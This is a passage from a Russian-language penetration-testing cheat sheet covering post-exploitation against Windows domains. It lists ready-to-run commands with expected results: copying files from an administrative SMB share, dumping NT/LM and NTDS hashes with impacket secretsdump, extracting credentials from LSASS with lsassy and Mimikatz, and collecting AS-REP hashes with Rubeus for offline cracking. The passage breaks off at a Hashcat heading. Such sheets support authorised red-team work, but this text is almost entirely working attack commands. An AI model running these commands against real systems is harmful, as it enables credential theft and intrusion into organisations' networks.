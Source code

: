 ### smbclient: скачивание файлов

```bash
smbclient //'\\<IP>\C$' -U 'DOMAIN\\user' -c 'lcd /tmp; mget *.evt'
```

*Действие:* скачать файлы с административной шары.
*Ожидается:* файлы в /tmp.

---

## Фаза 5 — Пост-эксплуатация

### secretsdump (impacket) — дамп хэшей

```bash
python3 secretsdump.py DOMAIN/admin:Pass@<DC_IP> -outputfile /tmp/secretsdump
```

*Действие:* извлекает NT/LM хэши и другие секреты (при правах).
*Ожидается:* файлы с хэшами (.sam, .ntds, .hashes).

### lsassy — извлечение creds из LSASS (удалённо)

```bash
lsassy -u 'Administrator' -p 'Passw0rd' -t <target_ip> -o lsassy_output.json
```

*Действие:* получить credentials через агенты/SMB/WMI.
*Ожидается:* JSON с найденными учетками/хэшами.

### Mimikatz — локально на Windows

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" exit
```

*Действие:* извлечение паролей/хэшей из LSASS.
*Ожидается:* список логонов с паролями/хэшами (если возможно).

### Rubeus — AS-REP / Kerberos ops (Windows)

```powershell
Rubeus.exe asreproast /domain:domain.local /outfile:asrep.txt
```

*Действие:* собирает AS-REP хэши для оффлайн подбора.
*Ожидается:* файл asrep.txt с хэшами.

---

## Оффлайн подбор хэшей

### Hashcat — Kerberoast TGS (mode 13100)
